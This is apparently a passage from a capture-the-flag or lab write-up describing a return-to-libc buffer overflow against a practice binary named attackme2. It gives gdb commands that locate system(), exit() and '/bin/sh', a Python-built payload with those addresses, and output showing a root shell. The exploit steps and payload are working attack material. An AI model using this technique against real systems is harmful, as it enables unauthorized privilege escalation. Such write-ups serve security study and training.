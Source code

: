 <p>We already know the two system call <code>system()</code> and <code>exit()</code> must be somewhere on the stack stored with variable names <code>system</code> and <code>exit</code>, we can just do:</p>



<pre class="prettyprint"><code class=" hljs perl">(gdb) p <span class="hljs-keyword">system</span>
<span class="hljs-variable">$1</span> = {&lt;text variable, <span class="hljs-keyword">no</span> debug info&gt;} <span class="hljs-number">0xf7e4c840</span> &lt;<span class="hljs-keyword">system</span>&gt;
(gdb) p <span class="hljs-keyword">exit</span>
<span class="hljs-variable">$2</span> = {&lt;text variable, <span class="hljs-keyword">no</span> debug info&gt;} <span class="hljs-number">0xf7e407f0</span> &lt;<span class="hljs-keyword">exit</span>&gt;
</code></pre>

<p>How about the address of the string <code>"/bin/sh"</code>? If the environment variable isn’t cleared out buffer overflow we can make use of it. However, this smart programmer somehow wrote a program to defend against injection through environment table but not a buffer overflow. OK. Let’s just do a search in <code>gdb</code></p>



<pre class="prettyprint"><code class=" hljs livecodeserver">(gdb) find &amp;<span class="hljs-keyword">system</span>,+<span class="hljs-number">9999999</span>,<span class="hljs-string">"/bin/sh"</span>
<span class="hljs-number">0xf7f6ed48</span>
warning: Unable <span class="hljs-built_in">to</span> access <span class="hljs-number">16000</span> <span class="hljs-keyword">bytes</span> <span class="hljs-operator">of</span> target memory <span class="hljs-keyword">at</span> <span class="hljs-number">0xf7fc8ad0</span>, halting search.
<span class="hljs-number">1</span> pattern found.</code></pre>

<p>LOL that was easy. Now we have the three addresses. </p>



<pre class="prettyprint"><code class=" hljs perl"> <span class="hljs-number">1</span>. <span class="hljs-keyword">system</span>():<span class="hljs-number">0xf7e4c840</span>
 <span class="hljs-number">2</span>. <span class="hljs-keyword">exit</span>():<span class="hljs-number">0xf7e407f0</span> 
 <span class="hljs-number">3</span>. <span class="hljs-string">"/bin/sh"</span>:<span class="hljs-number">0xf7f6ed48</span></code></pre>

<p>Time to craft the payload. <br>
 <code>$(python -c 'print "\x90"*9+" "+"G"*165+" \x40\xc8\xe4\xf7\xf0\x07\xe4\xf7 <br>
 \x48\xed\xf6\xf7"')</code> <br>
Note the space between three groups of arguments, and <code>G</code> is the alphanumeric <code>nop</code>, well actually you don’t really care about it anyway.  <br>
Let’s run it. <br>
<code>user@host:/c0re$ /c0re/attackme2 $(python -c 'print "\x90"*9+" "+"G"*165+" \x40\xc8\xe4\xf7\xf0\x07\xe4\xf7\x48\xed\xf6\xf7"')</code></p>



<pre class="prettyprint"><code class=" hljs tex">user@host:/c0re<span class="hljs-formula">$ /c0re/attackme2 $</span>(python -c 'print "<span class="hljs-command">\x</span>90"*9+" "+"G"*165+" <span class="hljs-command">\x</span>40<span class="hljs-command">\xc</span>8<span class="hljs-command">\xe</span>4<span class="hljs-command">\xf</span>7<span class="hljs-command">\xf</span>0<span class="hljs-command">\x</span>07<span class="hljs-command">\xe</span>4<span class="hljs-command">\xf</span>7<span class="hljs-command">\x</span>48<span class="hljs-command">\xed</span><span class="hljs-command">\xf</span>6<span class="hljs-command">\xf</span>7"')
U WRAITES 205 BAITES
<span class="hljs-special">#</span> whoami
root
</code></pre>
